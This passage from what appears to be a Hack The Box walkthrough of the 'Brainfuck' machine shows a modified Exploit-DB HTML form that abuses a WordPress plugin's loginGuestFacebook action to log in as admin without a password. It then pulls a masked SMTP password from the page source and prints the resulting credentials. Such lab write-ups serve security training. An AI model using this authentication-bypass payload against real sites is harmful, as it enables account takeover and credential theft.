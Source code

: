 here is the exploit [https://www.exploit-db.com/exploits/41006](https://www.exploit-db.com/exploits/41006)

I copied the code to my machine then modifed some of it  
```
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="admin">
        <input type="hidden" name="email" value="orestis@brainfuck.htb">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```
in the exploit it said like that

```
You can login as anyone without knowing password because of incorrect usage of wp_set_auth_cookie().
```

It means that we dont need a pass to login as admin so I check with the defult user admin

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/brain-fuck/exploit.png)

When we click the login it shows nothing there 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/brain-fuck/nothing.png)

so I go to brainfuck.htb and refresh the webpage.

we can see that  we are successfully login as admin 

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/brain-fuck/logging%20in%20as%20admin.png)

here we check the dashboard 
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/brain-fuck/dashboard.png)

there are smtp configuration settings with SMTP username and pass
![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/brain-fuck/smtp%20creds.png)

The password is masked 

Right click on the password field and view page source.

![](https://raw.githubusercontent.com/Cnw311/hack-the-box/gh-pages/assets/Hack%20the%20box%20machines%20images/brain-fuck/to%20see%20the%20masked%20pass.png)

here we got the user called orestis

Creds
```
orestis:value="kHGuERB29DNiNE
```

Let’s use the mail client Evolution to log into orestis’s email. 

When we logged in using the above creds with evolution 

there are two mails 
